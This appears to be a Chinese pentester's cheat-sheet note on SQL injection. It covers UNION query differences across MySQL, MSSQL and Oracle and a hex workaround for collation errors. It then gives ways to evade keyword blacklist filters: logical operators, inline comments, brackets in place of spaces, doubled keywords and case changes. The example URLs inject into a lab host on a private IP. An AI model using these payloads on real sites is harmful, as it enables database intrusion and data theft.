 ## union查询

```
# mysql执行：语句正常；
# mssql执行：语句错误，数据类型不匹配，无法正常执行
select id,username from users union select 1,2;     

# oracle执行：语句错误，数据类型不匹配
select id,username from users union select 1,2 from dual;  
```

遇到 union 错误

```
# 遇到 Illegal mix of collations for operation 'UNION'
http://192.168.137.140/cms/show.php?id=999 union select 1,2,group_concat(schema_name) from information_schema.schemata
# 是编码有问题，可以替换成
http://192.168.137.140/cms/show.php?id=999 union select 1,2,hex(group_concat(schema_name)) from information_schema.schemata

# 返回的结果是16进制，转换一下就可以了
```

## 绕过过滤

```
$check= eregi('select|insert|update|delete|from|or|and|=|\/\*|\*|\.\.\/|\.\/|union|into|load_file|outfile', $pass);
```
- and 用 && 代替
- or 用 || 代替
- union select from 变成 `/*!union*/` 这种

### 空格绕过

```
// 使用括号，select, from , where 这些关键字不能用括号
select(table_name)from(information_schema.tables)where(table_schema)=database()
// 使用内联注释
select/*1*/username/*1*/from/*1*/users
// 使用%0a 绕过
```

### 关键字写两次

用 seselectlect 可以绕过

```php
preg_replace('/select|union|from|where|insert|update/i','',$username)
```

### 大小写绕过
